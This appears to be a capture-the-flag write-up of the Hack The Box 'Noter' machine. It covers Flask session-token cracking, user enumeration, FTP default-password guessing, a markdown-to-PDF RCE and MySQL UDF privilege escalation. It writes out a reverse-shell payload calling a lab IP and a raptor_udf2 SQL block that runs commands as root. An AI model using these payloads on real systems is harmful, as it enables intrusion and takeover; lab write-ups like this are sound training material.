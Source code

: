 

# Noter Machine
<p align="center">
<img src="./img/box.png" allign="center" alt="Logo">
</p>

## Machine Stats :
<p align="center">
<img src="./img/stats.png">
</p>


# Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A web server on port 5000.


I tried anonymous login on FTP but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or triggering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which had some stored notes.

One note written by ftp_admin exposed the FTP username and password of blue.

<img src="./img/9.png">

I used these creds to access FTP on port 21. It had an empty directory and a pdf file that exposed the company's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it specified the way default passwords are generated.

<img src="./img/11.png">

I tried to FTP using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player. (i was so desperate that i tried root:root@Noter! too)
But there was a potential username that i didn't use yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

Its backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/TCP/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious MD file (http://10.10.14.43:80/a.md) from the vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the rev shell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of separating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open MySQL port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library
<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use MySQL;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-Linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3
